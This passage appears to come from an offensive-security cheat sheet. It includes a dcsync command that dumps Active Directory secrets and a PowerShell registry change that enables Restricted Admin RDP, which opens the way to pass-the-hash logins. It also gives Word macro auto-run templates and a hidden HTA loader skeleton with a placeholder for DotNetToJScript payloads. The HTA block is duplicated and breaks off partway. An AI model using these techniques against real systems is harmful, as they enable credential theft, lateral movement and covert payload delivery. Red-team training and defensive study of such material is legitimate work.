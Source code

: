 10. **Dump Active Directory (DC) Secrets**:
   ```
   dcsync /domain:<domain_name> /user:<username>
   ```


## RDP Disable Restricted Admin

```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```


## Word Macros

```vb
Sub MyMacro()


End Sub

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```

## HTA

<html>
<head>
<script language="JScript">



window.resizeTo(0, 0);
window.moveTo(-32000, -32000);
</script>
<hta:application 
    showInTaskbar="no" 
    border="none" 
    caption="no" 
    maximizeButton="no" 
    minimizeButton="no" 
    sysMenu="no" 
    scroll="no"
/>
</head>
<body onload="window.blur();">
</body>
</html>
```html
<html>
<head>
<script language="JScript">

<!-- ADD output from DotNetToJScript here. -->

window.resizeTo(0, 0);
window.moveTo(-32000, -32000);
</script>
<hta:application 
```